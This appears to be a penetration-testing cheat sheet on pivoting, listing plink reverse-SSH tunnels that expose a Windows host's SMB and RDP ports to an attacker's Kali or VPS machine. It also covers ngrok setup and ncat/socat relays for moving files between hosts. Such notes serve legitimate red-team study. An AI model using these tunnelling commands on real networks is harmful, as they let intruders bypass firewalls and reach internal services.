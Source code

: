 ## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185
```

## ngrok

```powershell
# get the binary
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip

# log into the service
./ngrok authtoken 3U[REDACTED_TOKEN]Hm

# deploy a port forwarding for 4433
./ngrok http 4433
./ngrok tcp 4433
```

## Basic Pivoting Types

| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| Listen - Listen   | Exposed asset, may not want to connect out. |
| Listen - Connect  | Normal redirect.                            |
| Connect - Connect | Can’t bind, so connect to bridge two hosts  |

### Listen - Listen

| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| ncat              | `ncat -v -l -p 8080 -c "ncat -v -l -p 9090"`|
| socat             | `socat -v tcp-listen:8080 tcp-listen:9090`  |
| remote host 1     | `ncat localhost 8080 < file`                |
| remote host 2     | `ncat localhost 9090 > newfile`             |
